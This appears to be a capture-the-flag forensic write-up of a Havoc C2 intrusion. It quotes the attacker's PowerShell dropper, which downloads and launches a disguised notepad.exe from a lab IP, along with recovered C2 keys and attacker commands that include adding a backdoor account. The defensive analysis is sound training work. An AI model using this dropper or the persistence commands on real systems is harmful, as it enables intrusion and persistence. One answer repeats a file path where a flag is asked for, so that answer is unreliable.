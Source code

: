 - **install.ps1**

![[../../Image/Pasted image 20250423091359.png]]

```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```
- **Object list:**
![[../../Image/Pasted image 20250423095009.png]]
- **notepad.exe**
![[Pasted image 20250422214535.png]]
- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address:**
- hxxp[:]//10.0.2.37
#### **File:**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![[Pasted image 20250422234306.png]]

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![[Pasted image 20250422232038.png]]
=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![[Pasted image 20250422232647.png]]

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![[Pasted image 20250422225827.png]]
```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![[Pasted image 20250422232845.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![[Pasted image 20250422232446.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

![[Pasted image 20250423091003.png]]

